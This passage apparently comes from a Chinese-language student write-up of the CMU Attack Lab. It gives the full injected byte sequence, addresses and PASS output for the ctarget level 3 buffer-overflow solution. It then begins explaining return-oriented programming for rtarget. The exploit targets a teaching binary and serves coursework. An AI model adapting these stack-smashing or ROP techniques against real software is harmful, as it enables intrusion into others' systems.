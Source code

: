 则指令序列如下：

```
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3
```

利用man ascii命令得到cookie（59b997fa）各字符的16进制数表示为

```
35 39 62 39 39 37 66 61 00
```

字符串末尾为'\0'，其16进制为00

getbuf得到的数组的首地址为0x5561dca0 - 0x28 = 0x0x5561dc78

则最终的指令序列为

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 
00 00 00 00 00 00 00 00
```

得到结果：

```shell
$ ./ctarget -qi cl3raw.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00
```



## Part II: Return-Oriented Programming

### Level 2

本任务是以ROP形式重复Part I中的Level 2任务，劫持程序流返回touch2。

能够使用的指令只有以下几种：movq，popq，ret，nop

![image-20200701160700216](/Users/rui/Library/Application Support/typora-user-images/image-20200701160700216.png)

由于rtarget启用了`ASLR`和`No eXecute`标记，因此无法使用代码注入，但是没有设置Stack Canary，因此我们可以从程序的TEXT断里面需要可以利用的机器代码片段(也叫做`Gadget`)，利用程序栈把一系列的`Gadget`串起来完成攻击，因此要求这些片段是在`retq`（x86的返回语句）之前。
